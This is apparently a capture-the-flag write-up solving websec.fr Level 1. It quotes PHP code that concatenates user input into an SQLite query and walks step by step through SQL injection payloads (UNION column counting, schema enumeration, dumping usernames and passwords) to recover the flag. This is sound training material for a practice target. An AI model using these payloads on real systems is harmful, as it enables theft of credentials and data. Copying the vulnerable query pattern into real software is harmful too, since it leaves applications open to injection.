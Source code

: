 # Level 1
## Task
Challenge URL: https://websec.fr/level01/index.php  

![image](https://user-images.githubusercontent.com/44528004/132601995-9e60abba-e344-4271-83e8-3392e98229d1.png)
## Solution
### Initial observation
The `this application` links to the back-end source code including PHP and HTML. Following is the source for PHP:  
```php
<?php
session_start ();

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

include 'anti_csrf.php';

init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();

    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>
```

Here, we can see that the query statement is prepared by concatenating user input to a predefined statement and thereby susceptible to SQL injection.  

If I enter the `user ID` as `'`, an error message is returned:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "' LIMIT 1" in /index.php on line 16

Fatal error: Call to a member function fetchArray() on boolean in /index.php on line 17
```

If I enter '' or 1=1 --, I get this:  

![image](https://user-images.githubusercontent.com/44528004/132615026-734f4575-28eb-4e65-9bb3-da1ad6e08955.png)


### Exploitation
First, I found the number columns returned.  
When I entered `'' union select 1 --`, I got:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns in /index.php on line 16

Fatal error: Call to a member function fetchArray() on boolean in /index.php on line 17
```
This means the `SELECT` statement on the right side doesn't have the same number of columns as of the left side. Therefore, I increased the number of columns on the right side to 2 with the following payload:
```
'' union select 1, 1--
```

As a result, I got this:  

![image](https://user-images.githubusercontent.com/44528004/132615447-388b4ecc-5d20-460a-99aa-1af3365d1708.png)

This implies that there are 2 columns returned.

Next, I tried to disclose table names and column names to hopefully find something.  
From [this post](https://stackoverflow.com/questions/6460671/sqlite-schema-information-metadata), I got the payload to get the table names as well as the sql command to create that table:
```sql
SELECT name, sql FROM sqlite_master
WHERE type='table'
ORDER BY name;
```

With that payload, I got this result:  

![image](https://user-images.githubusercontent.com/44528004/132615853-0236d80c-7c0f-40a0-a7fc-df46e6d990d7.png)

From the result, I can see that there is a table called `users` and in that table there are 3 columns, namely `id`, `username`, and `password`.

Them, I wanted to see all `username`s in this table:
```sql
'' UNION SELECT username, password FROM users ORDER BY username DESC --
```

The result is:  

![image](https://user-images.githubusercontent.com/44528004/132617184-184c540e-bf7a-4f10-876f-981b272adef4.png)
> So flag: `WEBSEC{Simple_SQLite_Injection}`
